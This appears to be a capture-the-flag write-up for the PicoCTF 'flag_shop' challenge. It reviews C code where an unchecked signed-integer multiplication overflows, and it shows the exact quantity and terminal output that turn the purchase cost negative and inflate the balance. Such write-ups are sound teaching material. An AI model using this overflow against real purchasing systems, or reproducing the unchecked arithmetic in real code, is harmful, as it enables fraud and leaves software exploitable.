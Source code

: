 ```yaml
---
title: "PicoCTF: flag_shop"
date: 2024-11-20T14:26:45-06:00
draft: false
tags:
- PicoCTF
- Integer Overflow
- Code Review
---
```



### Description
flag_shop is a challenge on PicoCTF where an integer overflow vulnerability allows for the purchase of an 1337 flag where we otherwise would have insufficient funds.

### Walkthrough
#### Functionality Testing
Connecting to the Pico server, we get a menu with several options.

```
┌──(kali㉿kali)-[/tmp]
└─$ nc jupiter.challenges.picoctf.org 9745
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
```

We can see our account balance.

```
 Enter a menu selection
1



 Balance: 1100 
```

We can also buy flags, of which there are two options. Options 1 costs 900 each, whereas option 2, the "1337 flag", costs 100000 each.

```
 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
```

```
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one
```

We are asked to buy a flag, presumably the 1337 flag, so let's get started.


#### Code Review
The first thing that caught my eye was the usage the unsecure ```scanf()```. ```scanf()``` takes data from 
standard input and stores it to the address of a variable. However, it does not set a limit on the size of user input, meaning
 it is vulnerable to overflow. For this challenge, we do not need to exploit ```scanf()```, but it is still something worth 
 keeping in mind.

We also see that the ```store.c``` uses an integer to store the total cost of the flags in 
```total_cost```, meaning it can be interpreted as positive or negative. ```total_cost``` is derived by multiplying the cost of flag 1 
(900) with the number of flags our user wants to buy, so the number of flags we buy could flip the most significant bit of ```total_cost``` to 1, 
turning it into a negative number.

```C
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");
                
                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }   
                }   
            }
```


#### Exploitation
In two's complement, the most significant bit, or leftmost digit determines whether a number is positive (0) or negative (1). 
When our total cost ends up being greater than the maximum positive integer, the cost becomes negative if the most significant bit is 1.
Since the price of a flag is 900, we can overflow our cost by buying ```maximum_integer/price_per_flag``` flags. Of course, this value needs to be
rounded up (or +1 if the quotient is a whole number).

```
┌──(kali㉿kali)-[/tmp]
└─$ python3
Python 3.12.6 (main, Sep  7 2024, 14:20:15) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import math
>>> math.ceil(2147483647/900)
2386093
>>> 2147483647/900
2386092.941111111
```

However, when I try to buy 2386093 flags, I am thrown deep into debt!

```
These knockoff Flags cost 900 each, enter desired quantity
2386093

The final cost is: -2147483596

Your current balance after transaction: -2147482600
```

Let us figure out why this is happening. I've provided a script below to find the binary representation of an integer.

```C
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>


void getBin(int);

int main(int argc, char* argv[]) 
{
        if (argc != 2)
        {
                printf("Usage: %s <num>", argv[0]);
                exit(1);
        }

        getBin(atoi(argv[1]));

        return 0;
}

void getBin(int num)
{
        char bin[33];
        unsigned short index = 0;
        bin[index] = (num >> 31 & 1) + 48;

        for (int i = 1 << 30; i > 0; i >>= 1)
        {
                index++;
                num & i ? (bin[index] = '1') : (bin[index] = '0');
        }

        bin[32] = '\0';

        printf("Number: %d\n", num);
        printf("Binary: %s\n", bin);

        return;
}
```

Calculating our remaining funds, we get 2147483596.

```
┌──(kali㉿kali)-[/tmp]
└─$ ./int2bin $(( 0-2386093*900  ))
Number: 2147483596
Binary: 01111111111111111111111111001100
```

However, we start with 1100 in our balance, not 0. If we recalculate our balance with that accounted for, we get -2147482600.

```
┌──(kali㉿kali)-[/tmp]
└─$ ./int2bin $(( 1100-2386093*900  ))
Number: -2147482600
Binary: 10000000000000000000010000011000
```

The easiest way to fix this debacle would be to add 1100/900 when calculating the number of flags we need to buy since 
we will need to overflow an additional 1100 for flags that cost 900 each. 

```
>>> math.ceil(2147483647/900+1100/900)
2386095
```

And now we have 2147482896 in our account after the transaction, more than enough to buy the 1337 flag.

```
These knockoff Flags cost 900 each, enter desired quantity
2386095

The final cost is: -2147481796

Your current balance after transaction: 2147482896
```

```
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_<redacted>}
Welcome to the flag exchange
We sell flags
```